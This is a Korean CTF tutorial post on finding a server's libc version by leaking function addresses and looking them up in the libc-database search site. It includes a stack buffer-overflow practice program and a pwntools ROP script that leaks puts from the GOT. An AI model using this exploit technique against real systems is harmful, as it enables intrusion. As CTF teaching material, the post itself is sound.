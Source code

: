 ## Introduction
ROP를 해야하는데 CTF에서 libc 파일을 주지 않았을 경우엔 주최측 서버의 libc 버전을 추측해야하는 상황이 생깁니다.

이 때, ASLR이 걸려도 하위 1.5바이트는 변하지 않음을 이용해 libc 버전을 알아낼 수 있습니다.

## libc-database search
파일로 된 libc-database도 있지만 이번 실습에 이용할 것은 [libc database search](https://libc.blukat.me)입니다.

![1](/image/libc-database/1.png)

쿼리문에 leak해서 얻어낸 함수와 주소를 입력하면, libc 버전과 유용한 offset들을 나타내줍니다.

## Practice
아래의 C 파일을 바탕으로 실습하도록 하겠습니다.

```C
// Compile: gcc -o libc-database libc-database.c -fno-PIE -no-pie -fno-stack-protector -z execstack
#include <stdio.h>
#include <unistd.h>

int main(){
        char buf[0x30];

        setvbuf(stdin, 0, _IONBF, 0);
        setvbuf(stdout, 0, _IONBF, 0);

        puts("[*] Leak libc version");
        printf("Buf: ");
        read(0, buf, 0x100);

        return 0;
}
```

매우 간단한 BOF 문제이며 아래의 payload를 통해서 2개의 함수 주소를 leak 해보겠습니다.

```python
from pwn import *

context.log_level = 'debug'

r = process("./libc-database")
e = ELF("./libc-database")

pop_rdi = 0x401283

# Leak puts(read)
payload = b"A" * 56
payload += p64(pop_rdi) + p64(e.got['puts']) + p64(e.plt['puts'])

r.sendafter(": ", payload)

print(hex(u64(r.recv(6) + b"\x00"*2)))
```

실행하면 아래와 같은 결과값을 얻을 수 있습니다.

```shell
[*] puts: 0x7f0872b3d5a0
[*] read: 0x7f4a1aa14130
```

위 payload에서는 귀찮음의 이유로 한 번에 하나의 주소만 leak하였지만 정확한 libc 버전을 얻기 위해서는 최소 2~3개의 데이터가 필요합니다. 

이렇게 나온 값들을 아까의 페이지에 삽입하게되면 아래 사진과 같이 libc 버전과 offset이 나오게됩니다.

![2](/image/libc-database/2.png)

실제로 사용한 libc-2.31.so가 찾아짐을 확인할 수 있습니다.

![3](/image/libc-database/3.png)

## Conclusion

* *__함수 주소 하위 1.5바이트는 변하지 않음을 이용해__* libc version을 예측할 수 있습니다.
* *__최대한 많은 함수의 주소값__*을 알아야 예측 범위를 좁힐 수 있습니다.

## Reference

* [libc-database 사용하기](https://s1m0hya.tistory.com/20)